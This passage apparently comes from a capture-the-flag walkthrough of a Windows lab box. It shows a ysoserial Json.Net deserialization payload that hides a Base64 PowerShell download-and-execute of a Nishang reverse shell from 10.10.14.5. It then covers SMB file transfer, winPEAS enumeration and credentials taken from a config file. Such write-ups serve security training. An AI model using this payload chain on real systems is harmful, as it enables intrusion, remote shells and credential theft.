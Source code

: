 The _shell.ps1_ script will be the _Invoke-PowerShellTcp.ps1_ from the **Nishang** scripts.

Creating new .NET payload to run the Base64-encoded command:
```
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADUALwBzAGgAZQBsAGwALgBwAHMAMQAnACkA" -o base64
```

Sending the Base64-encoded payload in the HTTP request:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer:
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YV(...)
(...)
```

After sending the request, the script _shell.ps1_ will be executed and the listener on my IP and port 9001 starts a reverse shell as the user _userpool_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script**.

Starting an SMB server:
```
impacket-smbserver -username tester -password TestPass321 share $(pwd)
```

Creating a new drive to upload and download files:
```
$pass = "TestPass321" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PsCredential('tester', $pass)
New-PsDrive -name share -root \\10.10.14.5\share -Credential $cred -PSProvider "filesystem"
```

Accessing the share and running **winPEAS**:
```
cd share:

.\winPEAS.exe
```

A program called **Sync2Ftp** is installed in _C:\Program Files\Sync2Ftp_ and in the directory are two files that we can copy to our local client to analyze them:
```
copy SyncLocation.exe share:
copy SyncLocation.exe.config share:
```

The configuration file _SyncLocation.exe.config_ contains credentials:
```
<appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
</appSettings>

<supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2"
```
